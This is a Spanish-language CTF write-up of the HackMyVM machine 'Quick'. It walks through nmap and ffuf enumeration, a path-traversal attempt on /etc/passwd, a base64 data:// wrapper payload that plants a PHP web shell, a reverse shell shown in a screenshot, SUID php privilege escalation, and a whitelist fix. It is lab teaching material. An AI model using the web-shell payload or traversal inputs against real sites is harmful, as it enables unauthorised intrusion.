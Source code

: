 ```yaml
---
title: 'Quick'
date: 2024-02-05T20:04:07-03:00
permalink: /posts/hackmyvm/:title/
categories: ["Writeups", "HackMyVm"]
tags: ['Linux', 'CTF', 'File Inclusion', 'PHP', 'PHP Wrapper', 'SUID']
image:
  path: /assets/img/hmvm/quick/quick-0.png
---
```


¡Hola, hacker! ¡Bienvenido a un nuevo post!

En este artículo, nos adentraremos en la resolución de la máquina [Quick](https://hackmyvm.eu/machines/machine.php?vm=quick) de la plataforma HackMyVM. Comenzaremos aprovechando un parámetro en la URL para obtener acceso al sistema mediante una reverse shell. Este parámetro se emplea para cargar diversas secciones del sitio, pero su validación no está siendo realizada de manera adecuada. Finalmente, nos aprovecharemos de un binario de `php` con permisos SUID para escalar nuestros privilegios.

## Reconocimiento

Comenzamos lanzando una traza ICMP a la máquina objetivo para comprobar que tengamos conectividad.

![Quick](/assets/img/hmvm/quick/quick-1.png)
_Reconocimento usando el comando ping_

Vemos que responde al envío de nuestro paquete, verificando de esta manera que tenemos conectividad. Por otra parte, confirmamos que estamos frente a una máquina Linux basandonos en el TTL (Time To Live).

## Enumeración

### Descubrimiento de puertos abiertos
Realizamos un escaneo con nmap para descubrir que puertos TCP se encuentran abiertos en la máquina víctima.

```bash
nmap -sS -p- --open --min-rate 5000 -Pn -n 20.20.20.12 -vvv -oG scanPorts
```

![Quick](/assets/img/hmvm/quick/quick-2.png)
_Descubrimiento de puertos abiertos_

> ver la [Cheatsheet](/cheatsheet) para más detalle sobre los parámetros utilizados.
{: .prompt-info }

### Enumeración de versión y servicio

Lanzamos una serie de script básicos de enumeración propios de nmap, para conocer la versión y servicio que esta corriendo bajo los puertos abiertos.

```bash
nmap -sCV -p22,80 -vvv -oN targeted 20.20.20.12
```

![Quick](/assets/img/hmvm/quick/quick-3.png)
_Descubrimiento de versión y servicio con nmap_

> ver la [Cheatsheet](/cheatsheet) para más detalle sobre los parámetros utilizados.
{: .prompt-info }

## Explotación

Accedemos al sitio web que se encuentra en ejecución en el puerto 80, donde nos encontramos lo siguiente:

![Quick](/assets/img/hmvm/quick/quick-4.png)
_Web Quick_

![Quick](/assets/img/hmvm/quick/quick-5.png)
_Web Quick_

Podemos notar que las diversas secciones del sitio web se cargan dinámicamente mediante el parámetro `page`. Esto se puede verificar al acceder directamente a alguno de estos archivos.

![Quick](/assets/img/hmvm/quick/quick-7.png)
_Web Quick - parámetro page_

También, podemos verficarlo haciendo un poco de web fuzzing.

```bash
ffuf -fw 219 -c -u 'http://20.20.20.12/index.php?page=FUZZ' -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
```
![Quick](/assets/img/hmvm/quick/quick-6.png)
_Web Fuzzing - parámetro page_

Teniendo en cuenta lo anterior, podemos intentar leer archivos del sistema aplicando *Directory Path Traversal*.

```bash
http://20.20.20.12/index.php?page=../../../../../../../etc/passwd
```

![Quick](/assets/img/hmvm/quick/quick-8.png)
_Web Fuzzing - parámetro page_

Pero vemos que no tenemos éxito.

Si probamos aplicar un wrapper de php, por ejemplo: `php://filter/convert-base64.encode/resource=home` para leer el contenido de los archivos php, vemos que tampoco tenemos suerte. 

![Quick](/assets/img/hmvm/quick/quick-9.png)
_Web Fuzzing - parámetro page_

Al investigar sobre los wrappers en PHP, descubrí una técnica para ejecutar comandos en la máquina víctima mediante el wrapper `data://`.

Referencia: [File Inclusion/Path traversal](https://book.hacktricks.xyz/pentesting-web/file-inclusion#remote-file-inclusion)

```bash
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+txt
```

Esta línea de código PHP utiliza una URL de datos (data URI) para proporcionar datos directamente en el código PHP sin necesidad de acceder a un archivo externo.

- `data://`: Indica que se trata de una URL de datos.
- `text/plain`: Especifica el tipo MIME de los datos, en este caso, texto plano.
- `;base64`: Indica que los datos están codificados en Base64 para evitar problemas con caracteres especiales.
- `,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+txt`: Los datos codificados en Base64.

Después de decodificar, esto se traduce como:

```bash
echo 'PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+' | base64 -d;
<?php system($_GET['cmd']);echo 'Shell done !'; ?>>
```

![Quick](/assets/img/hmvm/quick/quick-11.png)
_Web Fuzzing - parámetro page_

![Quick](/assets/img/hmvm/quick/quick-10.png)
_Web Fuzzing - parámetro page_

Ahora que tenemos capacidad de ejecución de comandos, podemos ganar acceso al sistema.

Enviamos una reverse shell a nuestra máquina atancate por el puerto 4444.

![Quick](/assets/img/hmvm/quick/quick-12.png)
_Reverse shell_

Hacemos un tratamiento de la tty para tener una terminal más interactiva:

- `script /dev/null -c bash`
- CTRL + Z
- `stty raw -echo; fg`
- `reset xterm`
- `export TERM=xterm`
- `export SHELL=bash`
- `stty rows <rows> columns <columns>`

Y de esta forma, ya podemos leer el flag de `user.txt`

![Quick](/assets/img/hmvm/quick/quick-13.png)
_user.txt_

## Escalación de privilegios

Al realizar una enumeración del básica del sistema, encontramos que el binario `/usr/bin/php7.0` es SUID.

![Quick](/assets/img/hmvm/quick/quick-14.png)
_SUID /usr/bin/php7.0_

Si hacemos una búsqueda en GTFOBins, nos encontramos con una forma de escalar nuestros privilegios en este contexto [GTFOBins - php](https://gtfobins.github.io/gtfobins/php/#suid).

![Quick](/assets/img/hmvm/quick/quick-15.png)
_GTFOBins - php_

Por lo tanto, procedemos a escalar nuestros privilegios.

![Quick](/assets/img/hmvm/quick/quick-16.png)
_Exploit SUID /usr/bin/php7.0_

Y por ultimo, leemos el flag de `root.txt`

![Quick](/assets/img/hmvm/quick/quick-17.png)
_root.txt_

## Extras

Antes de concluir el post, analizemos la parte del código vulnerable:

Vemos que no existe ninguna validación previa, más alla de forzar la extensión a `.php`.

Para validar este código, podemos hacer algo como lo siguiente:

```php
<?php
// Lista blanca de páginas permitidas
$allowedPages = ['home', 'about', 'contact', 'cars'];

// Si no se proporciona ninguna página, cargar la página predeterminada (home)
$page = isset($_GET['page']) ? $_GET['page'] : 'home';

// Manejar el caso en que la página solicitada no está permitida
if (!in_array($page, $allowedPages)) {
    http_response_code(403);
    die("Error 403: Acceso no permitido a esta página");
}

$filePath = __DIR__ . '/' . $page . '.php';

// Manejar el caso en que el archivo no existe
if (!file_exists($filePath)) {
    http_response_code(404);
    die("Error 404: Página no encontrada");
}

include($filePath);
?>
```
1. Se define una lista blanca de páginas permitidas (`$allowedPages`).
2. Se verifica si la página solicitada está en la lista blanca antes de incluir el archivo.
3. Se construye la ruta completa del archivo para incluir utilizando __DIR__ para obtener el directorio actual del script.
4. Se verifica si el archivo realmente existe antes de incluirlo.

Este enfoque ayuda a mitigar la posibilidad de LFI y brinda un control más estricto sobre las páginas permitidas.

De esta forma, concluimos el Writeup de la máquina Quick.

Espero que los conceptos hayan quedado claros. En caso de tener alguna duda, te invito a realizar nuevamente la máquina para afianzar tus conocimientos.

Gracias por tu lectura!

Happy Hacking!

